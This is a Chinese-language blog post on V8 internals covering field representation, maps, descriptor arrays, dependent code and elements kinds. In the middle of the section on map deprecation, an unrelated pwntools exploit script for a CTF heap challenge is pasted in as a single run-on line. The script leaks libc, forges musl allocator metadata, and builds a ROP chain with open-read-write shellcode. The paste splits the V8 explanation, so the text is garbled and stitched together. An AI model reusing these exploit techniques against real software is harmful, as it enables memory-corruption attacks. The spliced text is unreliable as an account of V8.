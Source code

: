 ```yaml
---
layout: post
title: "v8 basic"
date: 2022-06-14 13:00:20 +0800
categories: v8
typora-root-url: ./..
---
```

在js引擎中，属性访问是一项非常复杂的工作，涉及到了原型链查找，interceptor，field tracking等非常多的机制，在这里进行一个归纳与总结

## representation

代表一个对象在内存中的存储方式，以格的形式设计

![image-20230613225217526](/imgs/image-20230613225217526.png)

Smi为31位整数，HeapObject为任意在堆上的对象指针，Double较为特别，分为在堆上的MutableHeapNumber结构指针和直接存储的unbox double

其中Smi转变为Double需要分配一个MutableHeapNumber存入，将Double转变为Tagged需要将MutableHeapNumber转换为HeapNumber

Smi到Tagged以及HeapObject到Tagged可以无需修改对象，这也是in-place field representation generalization的前提。

## map

map是描述对象布局的重要结构，包含众多成员，下面选取一些重要的进行介绍

### DescriptorArray

存储对象所拥有的属性描述符，在源码中有如下注释，描述了该数组的结构

```cpp
// A DescriptorArray is a custom array that holds instance descriptors.
// It has the following layout:
//   Header:
//     [16:0  bits]: number_of_all_descriptors (including slack)   所有描述符个数，包括冗余，即容量
//     [32:16 bits]: number_of_descriptors                         已有的描述符个数
//     [64:32 bits]: raw_gc_state (used by GC)
//     [kEnumCacheOffset]: enum cache
//   Elements:
//     [kHeaderSize + 0]: first key (and internalized String)      键名，值存储在对象中，这里仅记录属性名
//     [kHeaderSize + 1]: first descriptor details (see PropertyDetails)  描述符细节，Smi类型，为Bitmap形式，对应类型PropertyDetails
//     [kHeaderSize + 2]: first value for constants / Smi(1) when not used 辅助值，可能存储字段的类型即字段的map
//   Slack:
//     [kHeaderSize + number of descriptors * 3]: start of slack
// The "value" fields store either values or field types. A field type is either
// FieldType::None(), FieldType::Any() or a weak reference to a Map. All other
// references are strong.
```

map中的instance_descriptor一般为该结构

在一些版本如2019 qwb accessible的源码中，当JSHeapBroker启用时，可能会对map进行一些缓存操作，此时的instance_descriptor为一个包含PropertyDescriptor的数组，记录一些常用信息

```cpp
struct PropertyDescriptor{
    NameData* key = nullptr; 			 // 键名
    ObjectData * value = nullptr;        // 键值
    PropertyDetails details = PropertyDetails::Empty(); // Details
    FieldIndex field_index;				 // 在DescriptorArray中的index	
    MapData* field_owner = nullptr;      // 记录属性拥有者，避免重复查找对象链
    ObjectData * filed_type = nullptr;   // 属性的类型（map）
    bool is_unboxed_double_field = false;// 
}
```

#### PropertyDetails::PropertyCellType

用于实现const field tracking，记录某个属性的可变性，针对性优化

```cpp
enum class PropertyCellType {
  kMutable,       // Cell will no longer be tracked as constant.
  kUndefined,     // The PREMONOMORPHIC of property cells.
  kConstant,      // Cell has been assigned only once.
  kConstantType,  // Cell has been assigned only one type.
  // Temporary value indicating an ongoing property cell state transition. Only
  // observable by a background thread.
  kInTransition,
  // Value for dictionaries not holding cells, must be 0:
  kNoCell = kMutable,
};
```

### dependent code

依赖数组，表示依赖当前map的编译优化代码

在编译时创建CompilationDenpendency的各种子类，如FieldTypeDependency，StableMapDependency等，实现抽象基类的Install函数，表明依赖位于某个Group中，如FieldTypeGroup，表示依赖于Map的某个FieldType，当map发生变化时，会检查新的FieldType是否变化，若有变化则Deoptimize对应Group的所有代码

在Map::GeneralizeField中可以看到一些相关的代码逻辑

### elements kind

elements数组的类型，以格形式组织，简图如下，摘自v8 blogs [Elements Kinds in V8](https://v8.dev/blog/elements-kinds)

![lattice](/imgs/lattice.svg)

当元素不能兼容类型时发生类型转换，如

```js
let a = [1,2,3]; // packed smi 
a[1] = 1.1;   //  packed double
a[2] = {};    // packed elements   (maybe recreate)
a[20] = 4;    // holey elements
```

可以使用--trace-elements-transitions flag来跟踪类型变化

```bash
elements transition [PACKED_SMI_ELEMENTS -> PACKED_DOUBLE_ELEMENTS] in ~+14 at ./test1.js:1 for 0x0ece001cc4cd <JSArray[3]> from 0x0ece0011ac7d <FixedArray[3]> to 0x0ece001cc4dd <FixedDoubleArray[3]>

elements transition [PACKED_ELEMENTS -> HOLEY_ELEMENTS] in ~+38 at ./test1.js:1 for 0x0ece001cc4cd <JSArray[3]> from 0x0ece001cc519 <FixedArray[3]> to 0x0ece001cc551 <FixedArray[47]>
```

目前最新版完整定义位于[v8](https://source.chromium.org/chromium/chromium/src/+/main:v8/)/[src](https://source.chromium.org/chromium/chromium/src/+/main:v8/src/)/[objects](https://source.chromium.org/chromium/chromium/src/+/main:v8/src/objects/)/[elements-kind.h](https://source.chromium.org/chromium/chromium/src/+/main:v8/src/objects/elements-kind.h)



### map mechainism

#### map deprecate and migration

当两个对象共用一个mapA时，一个对象通过操作派生出来新的mapB，那么这时mapA被deprecate

xxxxxxxxxx from pwn import *context.arch = 'amd64'sh = process("./babymull")​size_class = [    1, 2, 3, 4, 5, 6, 7, 8,    9, 10, 12, 15,    18, 20, 25, 31,    36, 42, 50, 63,    72, 84, 102, 127,    146, 170, 204, 255,    292, 340, 409, 511,    584, 682, 818, 1023,    1169, 1364, 1637, 2047,    2340, 2730, 3276, 4095,    4680, 5460, 6552, 8191]def find_offset_fit_class(offset):    for i in range(len(size_class)):        if size_class[i] <= offset and size_class[i+1] > offset:            return i    return -1def CountTailingZero(n):    debruijn32 = [        0, 1, 23, 2, 29, 24, 19, 3, 30, 27, 25, 11, 20, 8, 4, 13,        31, 22, 28, 18, 26, 10, 7, 12, 21, 17, 9, 6, 16, 5, 15, 14    ]    return debruijn32[((n&-n)*0x076be629&0xffffffff) >> 27]def CountLeadingZero(n):    n >>= 1    n |= n >> 1    n |= n >> 2    n |= n >> 4    n |= n >> 8    n |= n >> 16    n += 1    return 31-CountTailingZero(n)def size_to_class(n):    n = (n+3)>>4    if n < 10:        return n     n += 1    i = (28-CountLeadingZero(n))*4+8    if(n > size_class[i+1]): i+= 2    if(n > size_class[i] ): i+=1    return iclass fakeMeta:    prev = 0    next = 0    mem = 0    avail_mask=0    freed_mask=0    last_idx = 0    freeable = 1    sizeclass = 0    maplen = 0    def Mask(self):        return (self.avail_mask) | (self.freed_mask << 32)    def payload(self):        Payload = p64(self.prev)        Payload += p64(self.next)        Payload += p64(self.mem)        Payload += p64(self.Mask())        flag = self.last_idx & 0x1f        flag |= (self.freeable & 1) << 5        flag |= (self.sizeclass & 0x3f) << 6        flag |= self.maplen << 12        Payload += p64(flag)        return Payload​def add(name,size,content):    sh.sendlineafter(b">> ",b'1')    sh.sendafter(b"Name: ",name)    sh.sendlineafter(b"Size: ",str(size))    sh.sendafter(b"Content: ",content)    returndef dele(idx):    sh.sendlineafter(b">> ",b'2')    sh.sendlineafter(b"Index: ",str(idx))    returndef show(idx):    sh.sendlineafter(b">> ",b'3')    sh.sendlineafter(b"Index: ",str(idx))    return def gift(write_addr,leak_addr):    sh.sendlineafter(b">> ",b'1932620593')    sh.sendline(str(write_addr))    sh.sendline(str(leak_addr))    returnfor i in range(5):    add(b'a'*0xf,0x2c,b'a'*0x2c)dele(4)add(b'fuckyou',420,b'aiofoahfio\n')​add(b'a'*0xf,0x1000,':)\n') show(5)libc_base = u64(sh.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00')) - 0x20 + 0x4000success('libc_base : '+hex(libc_base))libc = ELF('./libc.so')malloc_ctx = libc_base + libc.sym['__malloc_context'] success('malloc_context : '+hex(malloc_ctx))for i in range(6):    dele(i)context.log_level = 'debug'gadget = 0x4bcf3pop_rdi = 0x15536+libc_basepop_rsi = libc_base +0x1b3a9pop_rdx = libc_base + 0x177c7read_addr = libc_base + libc.sym['read']mprotect_addr = libc_base + libc.sym['mprotect']Payload = p64(0)*6Payload += p64(libc_base-0x2000+0x100) Payload += p64(pop_rdi)Payload += p64(0)Payload += p64(libc_base + gadget)Payload += p64(0) * 20Payload += p64(libc_base)Payload += p64(pop_rsi)Payload += p64(0x1000)Payload += p64(pop_rdx)Payload += p64(7)Payload += p64(mprotect_addr)Payload += p64(pop_rdi)Payload += p64(0)Payload += p64(pop_rsi)Payload += p64(libc_base)Payload += p64(pop_rdx)Payload += p64(0x200)Payload += p64(read_addr)Payload += p64(libc_base) + b'\n'add(b'fuckyou',0xa9c,Payload)  #0 add(b'fuckyou',0x1000,b'a'*0x520+p64(libc_base-0x1000+0x40)+p64(0)+p64(libc_base-0x1000+0x10)+b'\x02'+b'\x00'*7+b'cat ./flag\x00'+b'\n') # 1add(b'fuckyou',0x1000,b'a'*0xfd7+b'\x00'+p32(5)+b'\n') #2gift(libc_base-0x4a82,malloc_ctx)sh.recvuntil(b'0x')check = int(sh.recvline()[:-1],16)success("check : "+hex(check))meta = fakeMeta()meta.prev = libc_base-0x2000+0x10meta.next = libc_base + libc.sym['ofl_head']meta.mem = libc_base-0x5a90meta.last_idx = 2meta.sizeclass = find_offset_fit_class(0x100)meta.maplen = 0meta.avail_mask = 0meta.freed_mask = 5​meta1 = fakeMeta()meta1.freeable = 0meta1.mem = libc_base - 0x5aa0meta1.prev = 0meta1.next = 0meta1.last_idx = 0meta1.avail_mask = 0meta1.freed_mask = 0meta1.maplen = 0meta1.sizeclass = 2add(b'fuckyou',0xa9c,b'a'*0x550+p64(check)+b'x'*8+meta.payload()+b'x'*8+meta1.payload()+b'\n') # 3dele(2)#gdb.attach(sh)sh.sendlineafter('>> ',b'4')shellcode1 = asm('''    push 0x67616c66    mov rdi,rsp    xor esi,esi    push 2    pop rax    syscall    mov rdi,rax    mov rsi,rsp    mov edx,0x100    xor eax,eax    syscall    mov edi,1    mov rsi,rsp    push 1    pop rax    syscall    ''')sh.sendline(shellcode1)sh.interactive()​#  0x000000000004bcf3: mov rsp, qword ptr [rdi + 0x30] ; jmp qword ptr [rdi + 0x38]python

map deprecate一般情况下会导致dependent code被deoptimize



#### field generalization
